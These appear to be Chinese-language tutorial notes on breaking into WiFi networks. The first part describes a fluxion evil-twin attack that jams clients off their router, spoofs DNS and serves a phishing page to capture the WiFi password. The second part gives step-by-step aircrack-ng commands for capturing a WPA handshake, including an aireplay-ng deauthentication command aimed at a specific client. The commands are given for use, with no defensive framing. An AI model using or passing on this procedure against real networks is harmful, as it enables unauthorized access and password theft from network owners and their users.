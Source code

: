 

🔵 选择web页面语言，
包括了大部分路由器品牌的页面，
当然我们也可以根据自己的需要在 /fluxion/Sites/ 修改页面。本次演示我们选择7 中文通用页面

这时fluxion会调用多个工具对原有路由器进行攻击，并迫使客户端连接到我们伪造的ap中，
同时对dns进行欺骗将客户端流量转到我们的钓鱼页面


手机会断开原来的wifi 并连接到我们伪造的ap 并弹出认证页面 
由于对dns进行了转发，所以即时关闭认证页面 只要打开任意页面都会转到到这


这时只要用户打开浏览器，就会转到输入WiFi密码的页面。


在通过对比密码正确后，fluxion会关闭伪造的ap 使客户端重新连接到原来的ap 并给出ap密码 退出程序


有问题. 明明密码对的也 提示不对..
试试 其他语言的就可以了...

这里是不会劫持 https网站的.只对http网站有效.



👁‍🗨 最后的钓鱼界面. 
1 有问题!!!
2 netgear 可用.
3 也可用..











⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️--字典破解----⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️

🔵 airmon-ng               查看是否支持监控模式  
🔵 airmon-ng start wlan0   开启监控模式. 现在用ifconfig 会发现 wlan0 变成 wlan0mon了.
🔵 airodump-ng wlan0mon    查看周围wifi详细信息
    ❗️ 记住要破解wifi的信道和BSSID (也就是路由器的Mac地址);   按Ctrl-C结束.

🔵 airodump-ng -c 3 --bssid 6c:b0:ce:bd:d1:5b -w ~/ wlan0mon   选择一个wifi来抓握手包
      -c      对方wifi 信道
      --bssid 对方wiif bssid
      -w      抓包数据的保存位置

      Station 下面的就是连接的用户...  记住一个用户的mac地址.
      用下面马上介绍的攻击命令来使得这个用户重新连接路由器. 这样就能快速获取握手包了.

🔵 强制某设备重连路由器.
    👁‍🗨 这里注意  要新开一个终端来执行下面命令.现在还不能停止上面的抓包...
    aireplay-ng -0 2 -a 6c:b0:ce:bd:d1:5b -c dc:37:14:16:d2:79 wlan0mon
      -0 表示发起攻击 
       2 好像是攻击次数.不管.
      -a 指定无线路由器BSSID
      -c 指定强制断开的设备
